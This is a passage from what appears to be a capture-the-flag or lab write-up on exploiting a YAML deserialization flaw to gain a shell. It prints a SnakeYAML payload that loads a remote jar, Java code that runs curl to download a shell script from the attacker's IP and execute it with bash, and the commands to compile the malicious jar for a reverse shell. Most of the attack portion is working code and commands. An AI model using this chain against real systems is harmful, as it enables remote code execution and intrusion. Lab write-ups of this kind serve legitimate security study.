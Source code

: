    ```bash
   !!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]
```
  
  Then i have to git clone the payload so that i can follow how to built it
    
##### Screenshot 9
  ![[Pasted image 20210703165512.png]]
  
 we are to modify the #AwesomeScriptEngineFactory.java by putting a jave code execution code that will enable us have a shell
   
  ##### Screenshot 10
![[Pasted image 20210703170120.png]]

Am going to execute a reverse shell here 

##### Screenshot 11
![[Pasted image 20210703170419.png]]


  ##### Screenshot 12
![[Pasted image 20210705091422.png]]

##### code
 *Replace your ip here  [(curl http://10.10.14.201)]*
```code
  Runtime.getRuntime().exec("curl http://10.10.14.201:8000/shell.sh -o /tmp/shell.sh");
  Runtime.getRuntime().exec("bash /tmp/shell.sh");
		
```

it needs a java compiler so by installing openjdk-11-jdk it was able to compiler which the compilation is done in the yaml-payload dir

##### compiling codes
```code
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .

```
 
 After successful compiling by checking the artsploit dir you will find a java class the screenshot below a firms that
   
   ##### Screenshot 14
![[Pasted image 20210705093731.png]]

In the same yaml-payload dir add this shell.sh script which contains a bash reverse shell command that it will be called by yaml-payload.jar that we just complied which has the execution code that includes the the shell.sh see #screenshot12 
